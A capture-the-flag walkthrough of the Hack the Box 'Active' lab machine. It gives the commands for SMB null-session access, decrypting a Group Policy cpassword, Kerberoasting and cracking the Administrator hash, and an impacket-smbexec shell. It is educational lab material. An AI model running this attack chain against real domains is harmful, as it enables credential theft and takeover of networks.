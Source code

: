 # Active
**Date:**  January 13th 2024

**Author:** j.info

**Link:** [**Active**](https://app.hackthebox.com/machines/148) on Hack the Box

**Hack the Box Difficulty Rating:** Easy

<br>

![](images/active0.png)

<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sC -sV -p- -oN nmap --min-rate=4500 active.htb`

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-13 20:30:23Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49173/tcp open  msrpc         Microsoft Windows RPC
49174/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-01-13T20:31:21
|_  start_date: 2024-01-13T20:26:08
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
```

<br>

## SMB Digging

The first thing I take a look at is SMB since there are no web ports open. I use smbmap and it viewing shares with a null session is successful.

`smbmap -H active.htb`

![](images/active1.png)

Connecting over to the Replication share and downloading the files gives us several to look at.

`smbclient -N //active.htb/Replication/`

![](images/active2.png)

Using `tree` to clean up the view of files.

![](images/active3.png)

I recursively grep for the term password in all files that were downloaded and find that in the Groups.xml file we have an old cpassword hash for the active.htb\SVC_TGS user.

`grep -r "password" .`

![](images/active4.png)

The cpassword hashes are very old hashes that were used with group policy in versions of Windows before 2012. They are also instantly reverseable with a build in tool called gpp-decrypt.

`gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"`

![](images/active5.png)

That gives us credentials for the SVC_TGS user. Let's see where we can use those.

Using crackmapexec shows that we have read access to additional shares now.

![](images/active6.png)

Looking through the NETLOGON share shows that it's empty. The SYSVOL share is a copy of the Replicaiton share and has the same files in it. And the Users share appears to be the c:/users folder on the machine since you can go to the SVC_TGS desktop and find the user.txt flag.

I also ran crackmapexec to find a list of users on the system.

`crackmapexec smb active.htb -u 'SVC_TGS' -p '<REDACTED>' --users`

![](images/active7.png)

I add those users to a file called users.txt and then check to see if any users are vulnerable to ASREPRoast, and none are.

`impacket-GetNPUsers active.htb/ -dc-ip active.htb -usersfile users.txt -format hashcat -outputfile asrep.hash`

![](images/active8.png)

Checking for users vulnerable to Kerberoasting shows that the Administrator user has a SPN set and is vulnerable, and we're able to capture their hash.

![](images/active9.png)

Checking the hashcat mode shows us it's mode 13100 for cracking.

![](images/active10.png)

The password cracks quickly using hashcat.

`hashcat -m 13100 kerb.hash ~/rockyou.txt`

![](images/active11.png)

<br>

## System Access

Now that we have credentials for the Administrator account I look at what ports are available that allow remote access and don't see anything that jumps out other than WinRM which doesn't work when I try.

I give impacket-smbexec a try and it works for me.

`impacket-smbexec active.htb/Administrator@active.htb`

![](images/active12.png)

You can find the user.txt and root.txt flags at the following locations.

![](images/active13.png)

<br>

With that we've completed this CTF!

![](images/active14.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **smbmap** to find an open share on SMB that allows null sessions
- Downloading all files from the SMB share and finding **Groups.xml** which has a usernamd and password hash in it
- Using the **gpp-decrypt** tool on the cpassword hash to recover the password of the SVC_TGS account
- Using **crackmapexec** to find a list of users on the system
- Finding that the Administrator account is vulnerable to **kerberoasting** using **impacket-GetUserSPNs**
- Cracking the Administrator password with **hashcat**
- Using **impacket-smbexec** to obtain a shell on the system as Administrator

<br>

Many thanks to:
- [**eks**](https://app.hackthebox.com/users/302) and [**mrb3n**](https://app.hackthebox.com/users/2984) for creating this CTF
- **Hack the Box** for hosting this CTF

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)